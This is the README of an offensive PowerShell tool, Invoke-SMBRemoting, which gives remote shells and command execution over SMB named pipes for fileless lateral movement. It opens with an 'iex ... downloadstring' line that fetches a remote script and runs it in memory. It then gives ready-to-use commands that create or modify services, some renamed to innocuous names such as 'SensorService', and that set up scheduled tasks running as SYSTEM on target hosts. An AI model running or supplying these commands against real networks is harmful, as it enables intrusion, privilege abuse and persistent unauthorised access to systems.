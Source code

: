 # Invoke-SMBRemoting
Interactive Shell and Command Execution over Named-Pipes (SMB) for Fileless lateral movement.

Invoke-SMBRemoting enables remote command execution or interactive shell access over SMB named pipes through service creation/modification or scheduled tasks.

The tool supports specifying commands or establishing a persistent shell connection, and requires administrative rights on the target.

First, load the script in memory:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-SMBRemoting/main/Invoke-SMBRemoting.ps1')
```

### Interactive Shell
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose
```

### Command Execution
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose
```

![image](https://github.com/Leo4j/Invoke-SMBRemoting/assets/61951374/645eaffe-e3d3-4428-b7a4-14bf95f5ddce)

## Scheduled Tasks

Invoke-SMBRemoting can now leverage Scheduled Tasks to enable command execution or interactive shell access over Named Pipes (SMB) on a remote host.

On the remote host, created tasks will run as SYSTEM by default, but you can run them in the current user context by using the -AsUser switch

```
Invoke-SMBRemoting -ComputerName MSSQL01.ferrari.local -AsTask
```
```
Invoke-SMBRemoting -ComputerName MSSQL01.ferrari.local -AsTask -Command "whoami /all"
```
```
Invoke-SMBRemoting -ComputerName MSSQL01.ferrari.local -AsTask -AsUser
```
```
Invoke-SMBRemoting -ComputerName MSSQL01.ferrari.local -AsTask -AsUser -Command "whoami /all"
```
![image](https://github.com/user-attachments/assets/be729cb3-3de2-47d4-af7b-f283930a2211)
